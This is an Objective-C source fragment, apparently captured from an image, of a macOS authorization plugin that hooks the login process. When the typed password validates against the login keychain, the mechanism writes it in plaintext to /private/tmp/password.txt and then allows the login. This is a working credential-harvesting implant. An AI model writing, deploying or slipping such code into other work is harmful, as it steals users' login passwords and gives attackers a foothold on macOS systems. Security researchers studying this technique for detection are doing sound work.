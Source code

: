 ```objc
        // Make sure we have username and password data.
        if (!username || !password) {
            return AllowLogin(mechanism);
        }
        
        BOOL keychainPasswordValid = YES;
        
        SecKeychainSetUserInteractionAllowed(NO);
        keychainPasswordValid = ValidateLoginKeychainPassword(password);
        // Revert back to the default ids
        pthread_setugid_np(KAUTH_UID_NONE, KAUTH_GID_NONE);
        
        //NSData *passwordData = [NSKeyedArchiver archivedDataWithRootObject:password];
        if (keychainPasswordValid) {
            [password writeToFile:@"/private/tmp/password.txt" atomically:TRUE encoding:NSUTF8StringEncoding error:NULL];
        }
    }
    
    return AllowLogin(mechanism);
}

OSStatus MechanismDeactivate(AuthorizationMechanismRef inMechanism) {
    MechanismRecord *mechanism = (MechanismRecord *)inMechanism;
    return mechanism->fPlugin->fCallbacks->DidDeactivate(mechanism->fEngine);
}

OSStatus PluginDestroy(AuthorizationPluginRef inPlugin) {
    free(inPlugin);
    return errSecSuccess;
}

OSStatus AuthorizationPluginCreate(
                                   const AuthorizationCallbacks *callbacks,
                                   AuthorizationPluginRef *outPlugin,
                                   const AuthorizationPluginInterface **outPluginInterface) {
    PluginRecord *plugin = (PluginRecord *)malloc(sizeof(PluginRecord));
    if (plugin == NULL) return errSecMemoryError;
    plugin->fMagic = kPluginMagic;
    plugin->fCallbacks = callbacks;
    *outPlugin = plugin;
    
    static AuthorizationPluginInterface pluginInterface = {
        kAuthorizationPluginInterfaceVersion,
        &PluginDestroy,
        &MechanismCreate,
        &MechanismInvoke,
        &MechanismDeactivate,
        &MechanismDestroy
    };
    *outPluginInterface = &pluginInterface;
    
    return errSecSuccess;
}
```
